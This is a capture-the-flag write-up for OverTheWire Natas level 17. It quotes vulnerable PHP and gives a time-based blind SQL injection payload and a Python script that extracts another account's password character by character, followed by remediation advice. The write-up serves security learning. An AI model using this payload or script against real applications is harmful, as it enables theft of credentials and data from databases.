

# [Over The Wire (natas)] – [[Platform](http://natas17.natas.labs.overthewire.org/)] – [09/25/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [17]
- Difficulty: [Medium]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)
- Python

## Login
1. Logged in with credentials:
   - **Username**: `natas17
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas17.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content
   ```php
      /*
      CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
      );
      */

      if(array_key_exists("username", $_REQUEST)) {
         $link = mysqli_connect('localhost', 'natas17', '<censored>');
         mysqli_select_db($link, 'natas17');

         $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
         if(array_key_exists("debug", $_GET)) {
               echo "Executing query: $query<br>";
         }

         $res = mysqli_query($link, $query);
         if($res) {
         if(mysqli_num_rows($res) > 0) {
               //echo "This user exists.<br>";
         } else {
               //echo "This user doesn't exist.<br>";
         }
         } else {
               //echo "Error in query.<br>";
         }

         mysqli_close($link);
      } else {
   ```
   - this roughly translates into 
  
   1. If the request contains a key "username" continue.
   
   2. Create a database connection using localhost and user natas17 and password.

   3. Set query variable = select all user where username is equal to the username in the request and password is the password in the request also.

   4. If the key "debug" in the GET route exists then print out "Executing query: ..."-

   5. The conditional logic for displaying the data has been annotated and will not render.

   6. Close the database connection.

   
4. Steps taken (blind SQL Injection):

   1. Since there will be no confirmation if the attempted password is in the database we can use a time-delay in the reponse to give confirmation. (Silence is louder than words.)

   2. `?username=natas18"%20AND%20IF((SELECT%20password%20FROM%20users%20WHERE%20username%3D%27natas18%27)%20LIKE%20BINARY%20%27{guess}%25%27,%20SLEEP(1),0)%20--%20` This will be used be cause it translate into `natas18" AND IF(    (SELECT password FROM users WHERE username='natas18') LIKE BINARY '{guess}%',SLEEP(1),0) -- `

   3. The attack will basically be that if the user exists in the database and have a password that starts with the sub-string we will sleep in the query for 1 second if not then "0". 

   4. I created a script that checks every index of the 32 alphanumeric and if the response takes longer than a second that would mean that the sleep instruction was followed. 


   ```python
      import requests
      from requests.auth import HTTPBasicAuth


      def main():
         # --- Configuration ---
         url = "http://natas17.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth("natas17", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual
         charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

         password = ""  # will accumulate discovered characters

         # --- Loop through each position (1 to 32) ---
         while len(password) < 32:
            found = False
            for c in charset:
                  guess = password + c
                  
                  payload = f'{url}?username=natas18"%20AND%20IF((SELECT%20password%20FROM%20users%20WHERE%20username%3D%27natas18%27)%20LIKE%20BINARY%20%27{guess}%25%27,%20SLEEP(1),0)%20--%20'

                  # Send request
                  r = requests.get(payload, auth=auth)
                  td = r.elapsed
                  ms = td.total_seconds() * 1000

                  res_time = ms > 1000
                  if (res_time):
                     found = True
                     password += c

         return password
         

      if __name__ == "__main__":
         ans = main()
         print(f"\n[!] Full password: {ans}")

   ```
   
   5. This produced the flag.
   

---

🔑 **Why this works**: 

   - The application directly inserts user-supplied input into an SQL query without proper sanitization.

   - The code uses mysqli_query with a string built from $_REQUEST["username"], making it vulnerable to SQL injection.

   - Time-based blind SQL injection works because the attacker can detect valid conditions by measuring response delays (using SLEEP() in MySQL).

   - Lack of output for query results does not prevent the attack because timing differences act as a side channel.


---

💥 **Impact**

   - An attacker can retrieve sensitive information such as user passwords without authentication.

   - Full database enumeration is possible, including usernames and hashed or plaintext passwords.

   - Compromised credentials could lead to escalation to higher-level accounts or access to other systems if reused.

   - Confidentiality, integrity, and potentially availability of the database are at risk.

---
  
🛠️ **Remediation**

   - Use prepared statements (parameterized queries) instead of directly concatenating user input.

   - Sanitize and validate all input data before including it in SQL queries.

   - Limit database user privileges to only what is strictly necessary.

   - Monitor for abnormal query patterns and implement rate-limiting to detect automated attacks.

   - Consider adding web application firewalls (WAF) and logging to detect and respond to SQL injection attempts.